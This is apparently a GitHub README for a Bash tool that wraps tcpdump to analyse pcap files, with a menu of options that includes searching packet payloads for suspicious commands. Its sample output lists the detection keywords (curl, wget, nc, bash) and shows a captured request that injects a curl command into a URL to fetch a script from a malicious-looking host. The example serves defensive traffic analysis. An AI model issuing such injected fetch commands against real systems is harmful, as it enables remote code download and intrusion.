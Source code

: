 # Traffic-Analysis-Tools
A better way to analyze traffic
# Traffic Analysis Tools 🚦🔍

This repository contains a collection of tools to help analyze and visualize network traffic captured in PCAP files. These tools aim to provide an intuitive interface and a range of analysis options, enhancing the understanding of network behavior.

## Table of Contents 📝
- [Overview](#overview-)
- [Tools](#tools-)
  - [tCpDump.sh](#tcpdumpsh-)
- [Prerequisites](#prerequisites-🛠️)
- [Installation](#installation-⚙️)
- [Usage](#usage-🚀)

## Tools 🧰

### tCpDump.sh 📊
`tCpDump.sh` is an interactive Bash script that streamlines the analysis of pcap files using `tcpdump`. It provides a user-friendly menu with 24 analysis options, enabling you to:
- List source and destination IPs.
- Analyze conversation statistics (sequence and acknowledgment numbers).
- Detect packet retransmissions and anomalous traffic.
- Visualize conversation traces with Chart.js.
- Search for suspicious commands ( `curl`, `wget`) in payloads.

## Prerequisites 🛠️
To use `tCpDump.sh`, ensure the following are installed:
- **tcpdump**: Required for analyzing pcap files.
  - Install on Debian/Ubuntu: `sudo apt-get install tcpdump`
  - Install on Red Hat/CentOS: `sudo yum install tcpdump`
- **geoip-bin** (optional): Enables GeoIP analysis for mapping IPs to locations.
  - Install on Debian/Ubuntu: `sudo apt-get install geoip-bin`
- A Unix-like system with Bash ( Linux, macOS, WSL on Windows).
- PCAP files (`.pcap` or `.pcapng`) for analysis.

## Installation ⚙️
1. Clone the repository:
   ``` 
   git clone https://github.com/TheKrakenIO/Traffic-Analysis-Tools.git
   cd Traffic-Analysis-Tools
   ```
2 Make the script executable:

Make the script executable:

  ```
   chmod +x tCpDump.sh
   ```

Ensure tcpdump is installed (see Prerequisites).
(Optional) Install geoip-bin for GeoIP support.
Usage 🚀
Run the script and follow the interactive menu:
  ```
   ./tCpDump.sh
  ```
Example Workflow
Select Option 1 to list available pcap files in the current directory.
Select Option 2 to analyze a pcap file (capture.pcap).
Choose from 24 analysis options, such as:
Option 2: Display source and destination IP addresses.
Option 22: Visualize conversation trace (outputs Chart.js config).
Option 24: Search for suspicious commands like curl or wget.
Sample Output
```

$ ./tCpDump.sh
Please choose an option:
1. List available pcap files
2. Analyze a pcap file
3. Show tcpdump man page (related to pcap)
4. Exit

Option: 2
Enter the pcap file name: capture.pcap
Choose an analysis option:
...
24. Search for suspicious commands
Option: 24
Searching for suspicious commands (curl, wget, nc, bash)...
192.168.1.10.12345 > 93.184.216.34.80: Flags [P.], seq 1:200, ack 1, win 512
GET /?cmd=curl%20http://malicious.com/script.sh HTTP/1.1
Host: example.com
--
Note: Found commands may appear in User-Agent strings, URLs, or payloads. Review context for suspicion.
```
